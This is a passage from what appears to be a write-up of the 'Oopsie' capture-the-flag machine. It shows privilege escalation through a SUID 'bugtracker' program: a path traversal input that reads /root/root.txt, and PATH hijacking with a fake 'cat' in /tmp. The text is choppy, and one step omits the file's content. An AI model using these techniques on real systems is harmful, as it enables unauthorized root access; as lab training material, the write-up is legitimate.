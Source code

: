 ```
robert:x:1000:1000:robert:/home/robert:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false

*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
robert@oopsie:/tmp$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../root/root.txt
../../root/root.txt
---------------

af13b0bee69f8a877c3faf667f7beacf

robert@oopsie:/tmp$
```




OR 



We will run the application to observe how it behaves:The tool is accepting user input as a name of the file that will be read using the cat command, however, itdoes not specifies the whole path to file cat and thus we might be able to exploit this.We will navigate to /tmp directory and create a file named cat  with the following content

We will then set the execute privileges:
```
chmod +x cat
```

in order to exploit this we can add the /tmp directory to the PATH environmental variable.

```note
PATH is an environment variable on Unix-like operating systems, DOS, OS/2, andMicrosoft Windows, specifying a set of directories where executable programs arelocated.
```

export PATH=/tmp:$PATH


Finally execute the bugtracker from /tmp directory


the special permission for the user accesslevel has a single function: A file with SUID always executes as the user who owns thefile, regardless of the user passing the command. If the file owner doesn't haveexecute permissions, then use an uppercase S here.


```note
SUID : Set owner User ID
```
